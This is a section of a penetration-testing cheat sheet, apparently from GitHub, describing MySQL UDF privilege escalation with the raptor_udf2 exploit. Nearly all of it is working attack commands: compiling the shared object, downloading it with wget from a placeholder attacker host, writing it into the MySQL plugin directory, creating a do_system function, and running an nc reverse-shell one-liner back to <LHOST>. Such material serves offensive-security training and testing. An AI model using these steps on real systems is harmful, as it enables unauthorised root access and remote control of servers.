 Check exploits for running services:

```
# ps aux | grep <USER>
# ps aux | grep root
```
##

**MySQL Exploitation *(4.x/5.0)***

Always check MySQL version *(if applicable)* for **RAPTOR** exploit:

**IMPORTANT NOTE:** IF RAPTOR WON'T WORK E.G. ``file too short``, go for [this](https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql)

**IMPORTANT NOTE #2:** IT IS IMPORTANT TO FIND THE CORRECT PATH TO PUT YOUR ``.so`` FILE. SOMETIMES ``/tmp`` WON'T WORK! E.G. IF ``PUT`` METHOD IS ALLOWED IN FTP, PUT YOUR FILE THROUGH FTP!!!!!

**IMPORTANT NOTE #3:** SOMETIMES ``do_system`` WON'T WORK, USE ``sys_exec``!!

```
# mysql -V
```

**Compiling & preparing the exploit *(raptor_udf2.c)***

Compile:

```
# gcc -g -c raptor_udf2.c
# gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Transfer & Prepare:

```
# cd /tmp && wget http://<LHOST>:<LPORT>/raptor_udf2.so
# wget http://<LHOST>:<LPORT>/raptor_udf2.o
# mysql -u root -p
# <PASSWORD>

mysql > use mysql;
mysql > SHOW VARIABLES LIKE 'datadir';             <- Locate where the plugin files are (we need it to create exploitation function)
mysql > SHOW VARIABLES LIKE '%plugin%';            <- Plugin location
mysql> SHOW VARIABLES LIKE 'secure_file_priv';     <- Determine whether the database has been misconfigured to allow insecure handling of files
Server version: 5.7.30 MySQL Community Server (GPL)

mysql > CREATE TABLE potato(line blob);
mysql > INSERT INTO potato VALUES(load_file('/tmp/raptor_udf2.so'));
mysql > SELECT * FROM potato into dumpfile '/path_to_plugins_directory/raptor_udf2.so';
mysql > CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';    <- If you get an error (errno: 11) at this point, that means you need to repeat the previous step with different MySQL location, e.g. /usr/lib/mysql/raptor_udf2.so or /usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so (Also, if gcc is installed, try to look for gcc solution)
mysql > SELECT * FROM mysql.func;                  <- sanity check
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql > select do_system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f');
```
